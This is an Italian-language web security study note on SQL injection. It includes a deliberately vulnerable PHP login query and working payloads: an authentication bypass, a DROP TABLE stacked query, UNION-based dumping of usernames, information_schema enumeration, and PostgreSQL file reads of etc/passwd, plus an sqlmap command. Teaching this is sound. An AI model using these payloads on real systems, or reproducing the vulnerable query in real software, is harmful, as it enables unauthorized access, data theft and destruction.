

<style>
    strong{
        background-color:#faf43e;
        color: black;
        padding:0.1rem 0.2rem;
        border-radius:5px;
    }
</style>

# Web security - 2
```sh
docker exec -it <container_name> /bin/sh # per accedere al container con terminale bash
```

## SQL injection
SQL injection è una tecnica di attacco web che permette di bypassare controllo degli accessi, estrarre informazioni dal database oppure di compromettere il database attraverso una iniezione del codice SQL maligno. 



Alcuni esempi:    

Questo codice può essere usato per esempio se il server fa un controllo del password come 

```php
$password = $_POST['password'];

$check = query("SELECT * FROM login_tb WHERE password='$password'");

if($check>0) echo 'OK';
```
```sql
-- se uso il seguente input come password, posso bypassare il check
' OR 1=1; -- 
```
```php
query("SELECT * FROM login_tb WHERE password='' OR 1=1; --");
```
Cioè il risultato sarà sempre `TRUE` perché `1=1` è sempre vera, inoltre con `--` viene commentato tutto il resto della riga.

"`--`" SQL comment

Altri esempio:
```sql
SELECT * FROM Products WHERE ProductID = 15; DROP TABLE Suppliers;
SELECT * FROM Orders WHERE OrderID = 16 AND 1=1;
SELECT * FROM Users WHERE Login = 'Admin' -- ' AND Password=' '
```

```sql
SELECT productid,name,price FROM products WHERE Name=' *' UNION SELECT 1, string_agg(username,','), 1 FROM users*
```

Una funzione molto usata di postgres è `string_agg('colonna',' ,')` string aggregate restituisce i risultati della query aggregando tutto in una riga con entry separate con una virgola, l'attaccante pensa sempre che ci sia un `LIMIT 1`.


```sql
select * somethin,somethin from table_name UNION select something,somethin from table_name;
```

`UNION` deve avere delle colonne che hanno la stessa grandezza

```sql
select * from <table_name> order by <col_number>
```

`UNION SELECT 1,NULL,NULL;` per scoprire se la prima colonna è numerico ignorando = `NULL` la colonna 2 e 3, se questa query va a buon fine significa che è una colonna di tipo numerico (intero). Con questo modo si può scoprire che il tipo di colonna oppure se esiste una certa colonna.

## Un modo per scoprire tutte le tabelle e colonne del database.

```sql
select column_name from information_schema.columns  -- all columns 
select table_name from information_schema.tables -- all tables
```

`information_schema` normalmente è protetta con un controllo degli accessi.

[SQL injection payloads](https://github.com/payloadbox/sql-injection-payload-list) una lista di payloads.

```sql
UNION SELECT null,version(),null FROM pg_stat_user_tables -- stampa informazioni tecniche del database

union select null,pg_is_dir('/bin'),null from pg_stat_user_tables -- stampa i file della directory

union select null,pg_read_file('etc/passwd'),null from pg_stat_user_tables -- legge il file
```
## SQLmap
SQLmap un tool per automatizzare il testing di sql injection con una serie di payload
[SQL map](https://github.com/sqlmapproject/sqlmap)

```sh
python3 sqlmap.py -u "url"
```